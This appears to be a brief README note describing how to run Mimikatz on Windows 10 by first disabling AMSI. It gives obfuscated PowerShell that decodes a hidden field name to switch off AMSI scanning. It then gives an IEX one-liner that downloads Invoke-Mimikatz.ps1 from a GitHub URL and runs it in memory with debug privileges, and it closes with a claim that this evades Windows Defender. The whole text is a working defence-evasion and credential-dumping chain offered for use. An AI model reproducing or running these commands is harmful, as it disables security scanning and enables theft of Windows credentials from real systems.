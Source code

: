 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

run powershell,then:

`$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')`
`$h="4456625220575263174452554847"`
`$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "`
`$b =$a.GetField($s,'NonPublic,Static')`
`$b.SetValue($null,$true)`

`IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug coffee"`





Now It can bypass Windows Defender (2021--27)

[](https://github.com/sharp-shooter/research/blob/master/code/mimikatz/screenshot.png)
